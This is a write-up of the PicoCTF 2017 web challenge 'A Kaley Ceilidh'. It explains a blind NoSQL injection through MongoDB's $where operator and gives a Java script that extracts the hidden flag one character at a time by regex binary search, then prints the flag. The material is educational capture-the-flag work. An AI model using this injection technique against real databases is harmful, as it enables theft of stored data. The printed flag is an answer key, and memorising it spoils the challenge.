 # PicoCTF_2017: A Kaley Ceilidh

**Category:** Web Exploitation
**Points:** 175
**Description:**

>Everyone loves Scottish food [citation needed], but do you ever wish there were more hipster-y options? Well look no further than a [Kaley Ceilidh](http://shell2017.picoctf.com:8080/).

**Hint:**

>There's not a whole lot you can do on this application. If your normal attacks aren't working, perhaps you need to think bigger. Humongous, in fact.
The server probably won't show you anything that contains a "flag" property.

## Write-up
First we had to realize this Node server utilizes Mongodb (The hint says to think HuMONGOus). This meant that our SQL injection techniques will not work for this. For this we had to use a new type of injection called "no-sql" injection. The problem arises because the server will reject any nested object JSON queries that we make.

At first, it seems totally safe (most special quereies require a nested object construct), except for one. The  `$where`  directive allows you to execute arbitrary filtering code (javascript code). Most APIs are blocked in this javascript sandbox, so we couldn't edit the query and have it return our flag.

However, we still had one bit of data that could give us the flag (indirectly). When the executed javascript runs into an error, the server actually returns  `Error`  instead of an empty query. This allows us to create a narrowline distinction between whether if the flag, say matches a particular pattern, and whether it doesn't. Our solution involves using a binary search using regex as our method of testing whether if the flag matches a pattern.

The Java code that executes this binary search is of below:
```java
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.HttpURLConnection;
import java.net.URL;

public class Kaley
{
	public static URL web;
	public static boolean test(String flag) throws Exception
	{
		HttpURLConnection conn = (HttpURLConnection)web.openConnection();
		conn.setDoOutput(true);
		conn.setDoInput(true);
		conn.setUseCaches(false);
		conn.setRequestMethod("POST");
		conn.setRequestProperty("Content-Type", "application/json");
		conn.connect();
		
		OutputStream os = conn.getOutputStream();
		OutputStreamWriter osw = new OutputStreamWriter(os, "UTF-8");
		osw.write("{\"$where\": \"if (this.flag && /^flag{" + flag + "[A-Za-z0-9_]*}$/.test(this.flag)) throw 3\"}");
		osw.flush();
		osw.close();
		
		StringBuilder sb = new StringBuilder();
		BufferedReader br = new BufferedReader(new InputStreamReader( conn.getInputStream(),"utf-8"));
		String line = null;
		while ((line = br.readLine()) != null) {
		    sb.append(line + "\n");
		}
		br.close();
		return (sb.toString().equals("Error\n"));
	}
	
	public static char binarySearch(String before, char from, char to) throws Exception
	{
		while (from < to)
		{
			char mid = (char)((from + to) / 2);
			if (test(before + "[" + from + "-" + mid + "]"))
				to = mid;
			else
				from = (char)(mid + 1);
		}
		return to;
	}
	
	public static void main(String[] args) throws Exception
	{
		web = new URL("http://shell2017.picoctf.com:8080/search");
		
		String flag = "";
		for (int i = 0; i < 25; i++)
		{
			char res;
			if (test(flag + "[A-Z]"))
				res = binarySearch(flag, 'A', 'Z');
			else if (test(flag + "[0-9]"))
				res = binarySearch(flag, '0', '9');
			else if (test(flag + "[a-z]"))
				res = binarySearch(flag, 'a', 'z');
			else 
				res = '_';
			flag += res;
			System.out.print(res);
		}
		System.out.println();
		System.out.println("flag{" + flag + "}");
	}

}
```

Therefore, the flag is `flag{I_only_eat_0rg4n1c_flages}`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI3NzQ5Mjg5XX0=
-->
